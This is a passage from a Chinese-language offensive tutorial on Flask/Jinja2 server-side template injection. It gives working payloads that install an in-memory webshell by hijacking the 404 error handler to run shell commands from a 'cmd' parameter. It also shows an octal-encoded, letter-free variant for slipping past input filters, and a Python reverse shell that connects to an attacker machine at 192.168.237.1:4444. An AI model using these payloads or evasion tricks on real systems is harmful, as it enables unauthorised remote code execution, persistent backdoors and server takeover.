 在最后的代码，code即是前面传来的错误码，exc_class是异常类，f是页面回显内容。通过exec函数执行命令，把结果赋值给f回显到错误页面

```python
exc_class, code = self._get_exc_class_and_code(code_or_exception)
self.error_handler_spec[None][code][exc_class] = f
```

payload：

```python
{{ url_for.__globals__.__builtins__.exec("global exc_class; global code; exc_class, code = app._get_exc_class_and_code(404); app.error_handler_spec[None][code][exc_class] = lambda a: __import__('os').popen(request.args.get('cmd')).read()",{'request': url_for.__globals__['request'],'app': url_for.__globals__['current_app']})}}
```


## 补充

突然发现很多人在看，补充一下最近学到的姿势：无字母打入内存马

需要知道：

- flask可以使用`['']`替换`.`，来访问对象属性，例如：`''.__class__`,`''['__class__']`
- flask可以解析引号里的进制，例如十六进制，八进制，十进制
- flask可以使用`__import__`来导入模块，例如：`__import__('os')`

利用`[]`中括号索引的引号，同时利用八进制数字绕过字母限制，可以达到无字母打入内存马的效果

尝试解析

![7](https://the0n3.top/medias/flask-shell/7.png)

通过转换进制后的`''['__class__']['__base__']['__subclasses__']()`寻找可以子类`os_wrap`

![8](https://the0n3.top/medias/flask-shell/8.png)

::: danger
注意下面payload使用过程，需要换成实际索引，例如`os_wrap`的索引为`137`
:::

### 无字母反弹shell

使用`python3`反弹shell，反弹到攻击机的`192.168.237.1`，端口`4444`，注意`os.wrap类`索引修改为实际索引，例如`os_wrap`的索引为`137`

原payload

```python
''['__class__']['__base__']['__subclasses__']()[137]['__init__']['__globals__']['popen']('python3 -c \'import os,pty,socket;s=socket.socket();s.connect(("192.168.237.1",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")\'')['read']()
```

八进制

```python
''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\160\171\164\150\157\1563 -\143 \'\151\155\160\157\162\164 \157\163,\160\164\171,\163\157\143\153\145\164;\163=\163\157\143\153\145\164.\163\157\143\153\145\164();\163.\143\157\156\156\145\143\164(("192.168.237.1",4444));[\157\163.\144\165\1602(\163.\146\151\154\145\156\157(),\146)\146\157\162 \146 \151\156(0,1,2)];\160\164\171.\163\160\141\167\156("\163\150")\'')['\162\145\141\144']()
```
